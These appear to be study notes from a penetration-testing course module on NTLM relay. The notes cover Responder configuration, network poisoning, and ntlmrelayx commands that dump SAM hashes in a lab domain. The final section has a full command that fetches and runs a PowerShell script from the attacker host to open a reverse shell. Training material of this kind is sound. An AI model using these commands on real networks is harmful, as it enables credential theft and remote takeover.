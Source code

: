 Many tools can be used to start relay servers and clients and conduct post-relay attacks; we will focus on [Impacket’s](https://github.com/fortra/impacket/tree/master) [ntlmrelayx](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) in this module. Although other tools like [MultiRelay.py](https://github.com/lgandx/Responder/blob/master/tools/MultiRelay.py) or [Inveigh](https://github.com/Kevin-Robertson/Inveigh/tree/master) (primarily used on Windows) can also be used.

## Responder Configuration File
We can change the default configuration using Responder’s configuration file `Responder/Responder.conf`. If we want to relay `HTTP`, we need to set it to Off before trying to relay it.

To turn off the `SMB` server in Responder, we must change `SMB = On` to `SMB = Off`. The same applies to any other protocol. This is because `ntlmrelayx` runs `SMB` or `HTTP` server so it can relay the connection from the clients to the server, and if `Responder` is running those services, we won’t be able to use `ntlmrelayx`.

## NTLM Relay over SMB
In the previous section, we used `CrackMapExec`’s `--gen-relay-list` command to hunt for relay targets with SMB signing disabled, finding 172.16.117.50 and 172.16.117.60:
```
cat relayTargets.txt

172.16.117.50
172.16.117.60
```

To relay an authentication to one of these IPs, we need to poison the network using Responder and wait until a user or computer performs an action that provokes a broadcast or any other activity that we can intercept and force that session to authenticate to our attack host.

Let’s use `Responder` to poison the network:
```
sudo python3 Responder.py -I ens192
```

Next, we need to use `ntlmrelayx` to perform the NTLM Relay attack. `ntlmrelayx` provides the options `-t` and `-tf` for specifying relay targets, `ntlmrelayx` will relay the `NTLM` authentication over to the originating host, an attack called the `NTLM` `self-relay` attack (although patched, if we encounter legacy vulnerable hosts, considering this attack might prove helpful). The `-smb2support` option provides SMBv2 support for hosts requiring it:
```
ntlmrelayx.py -tf relayTargets.txt -smb2support
```

By default, `ntlmrelayx` will relay the NTLM authentication over `SMB`. If the session we relayed has highly privileged access on the target machine, `ntlmrelayx` will try to perform a `SAM dump`.

The below diagram showcases the attack we executed:
[[Z Assets/Images/Pasted image 20250915024554.jpeg|Open: Pasted image 20250915024554.png]]
![[Z Assets/Images/Pasted image 20250915024554.jpeg]]
As illustrated in the image above, here’s a simplification of what happened:

1. We started `Responder` & `ntlmrelayx` on the Attack machine (172.16.117.30).
2. Once a user from the DC (172.16.117.3) mistypes a `UNC` and Windows tries to connect to it, `Responder` poisons their responses and redirect the user to authenticate against our Attack machine.
3. When they connected to our attack host, `ntlmrelayx` relayed those authentications to the servers that were configured as targets (172.16.117.50 and 172.16.117.60), and the user `INLANEFREIGHT/PETER` was an administrator on one of the computer `172.16.117.50`, which caused a `SAM dump`.
---
## Command Execution

Instead of performing a `SAM dump`, we can perform command execution on the target machine using the option `-c "Command To Execute"`, and the commands will be executed via `SMB`. we can get a reverse shell, let’s use [Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) from [Nishang](https://github.com/samratashok/nishang) for that.
```
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://172.16.117.30:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 172.16.117.30 -Port 7331"
```